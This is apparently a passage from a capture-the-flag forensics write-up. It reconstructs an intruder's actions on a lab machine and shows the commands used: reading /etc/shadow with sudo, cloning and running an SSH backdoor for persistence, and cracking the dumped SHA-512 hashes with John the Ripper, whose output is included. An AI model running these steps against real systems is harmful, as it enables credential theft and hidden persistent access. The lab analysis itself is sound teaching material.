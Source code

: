 Since the attacker knew james' password, he had privileged access thanks to sudo.  
He used it to grab the hashes of the users' accounts, this is often done by attackers since they can try to crack the hashes later 'offline'.

```bash
sudo cat /etc/shadow
```

Last but not least, he downloaded a ssh backdoor in order to achieve persistence: this way he can log back to the target machine whenever he pleases.  
This is very useful but can increase the chance of being detected, if the backdoor is not stealthy enough.

```bash
git clone https://github.com/NinjaJc01/ssh-backdoor
```

```bash
ssh-keygen
chmod +x backdoor
./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

In order to assess the likelihood that the attacker was able to crack the hashes you can try to crack them yourself.  
Create a _shadow.txt_ file containing the hashes.  
Clean the hashes in a USER:HASH format removing other information, the file should look like this:

```bash
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.
```

Use **John the Ripper** with the fasttrack wordlist to try to crack the hashes.

```bash
john --wordlist=/usr/share/wordlists/fasttrack.txt shadow.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]         (bee)
[REDACTED]          (szymex)
[REDACTED]         (muirland)
[REDACTED]        (paradox)
4g 0:00:00:00 DONE (2024-10-27 10:51) 4.444g/s 246.6p/s 1233c/s 1233C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
